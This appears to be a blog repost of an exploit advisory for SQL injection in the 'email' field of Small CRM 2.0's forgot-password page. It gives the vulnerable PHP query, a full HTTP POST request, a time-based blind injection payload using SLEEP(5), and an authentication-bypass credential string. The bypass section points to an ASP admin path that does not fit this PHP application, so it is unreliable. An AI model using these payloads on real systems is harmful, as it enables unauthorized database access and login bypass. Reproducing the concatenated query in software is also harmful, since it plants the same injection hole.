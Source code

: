 ```yaml
---
layout:     post
title:      "Small CRM 2.0 - 'email' SQL Injection"
date:       2020-10-10 12:15
author:     "Ahmet Ümit BAYRAM"
category:   exploit
tags:       [sql, sqli, sql injection, exploit-db]
---
```




# Exploit Title: Small CRM 2.0 - 'email' SQL Injection
# Google Dork: N/A
# Date: 2020-10-10
# Exploit Author: Ahmet Ümit BAYRAM
# Vendor Homepage: https://phpgurukul.com/
# Software Link: https://phpgurukul.com/small-crm-php/
# Version: V2.0
# Tested on: Kali Linux
# CVE : N/A

========== Vulnerable Code ==========

mysqli_query $row1 = mysqli_query($con, "select email,password from user
where email='" . $_POST['email'] . "'");  // dbconnection.php

========== Post Request ====================

POST /crm/forgot-password.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101
Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: localhost/crm/forgot-password.php
Content-Type: application/x-www-form-urlencoded
Content-Length: 20
Connection: close
Cookie: __test=ec283e73906679549573af64209a5d5b;
PHPSESSID=4d272f5938b3ec9c60bb45c4d7b44497
Upgrade-Insecure-Requests: 1

email=test@test.com&submit=

============= Vulnerable Parameter ===============

email (POST)

============= Payload  =========================

' AND (SELECT 1543 FROM (SELECT(SLEEP(5)))gSRd) AND 'PCOX'='PCOX

----- PoC: Authentication Bypass -----

Administration Panel: http://localhost/[PATH]/yonetim/pass.asp
Username: '=' 'or'
Password: '=' 'or'
            
